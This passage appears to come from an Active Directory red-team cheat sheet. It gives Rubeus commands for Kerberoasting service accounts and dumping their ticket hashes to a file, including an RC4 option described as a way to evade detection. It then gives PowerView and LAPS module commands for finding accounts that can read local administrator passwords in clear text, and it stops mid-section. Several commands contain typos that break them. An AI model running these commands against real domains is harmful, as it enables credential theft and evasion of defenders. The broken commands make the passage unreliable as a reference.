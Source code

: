 Use Rubeus to list Kerberoast stats

~~~
Rubeus.exe kerberoast /stats
~~~

Use Rubeus to request a TGS

~~~
Rubeus.exe Kerberoast /user:serviceaccount /simple
~~~

To avoind detections based encryption Downgrade for Kerberos Etype (used by likes of MDI- 0x17 stands for rc4-hmac), look for kerberoastable accounts that only support RC4_HMAC

~~~
Rubeus.exe kerberoast /stats /rc4opsec
~~~

~~~
Rubeus.exe kerberoast /user:serviceaccount /simple /rc4opsec
~~~

kerberoast all possible accounts

~~~
Rubeus.exe kerberoast /rc4opsec /outfile:hashes.txt
~~~

### Local Administrator Password Solutions -LAPS

On  computer ,if LAPS is in use, a library AdmPwd.dll can be dound in the C:\Program Files\Laps\CSE\  directory

To find the who can read the passwords in  clear text machines in  OUs:

 Powerview

~~~
Get-DomainOU | Get DomainObjectAcl -ResolveGUIDs | Where-Object {($_.ObjectAceType -like 'ms-Mcs-AdmPwd') -and ($_.ActiveDirectoryRights -match 'ReadProperty')} | ForEach-Object {$_ | Add-Member NoteProperty 'IdentityName' $(Covert-SidToName $_.SecurityIdentifier):$_}
~~~

Using Active Directory module 

~~~
Get-LapsPermissions.ps1
~~~

Using LAPS 

~~~
Import-Module C:\AD\Tools\AdmPwd.PS.psd1
~~~

~~~
Find-AdmPwdExtentedRights -Identity OUDistinguishedName
~~~

Once We compromise the user hash the rights, use the following to read clear text passwords:

-Powerview
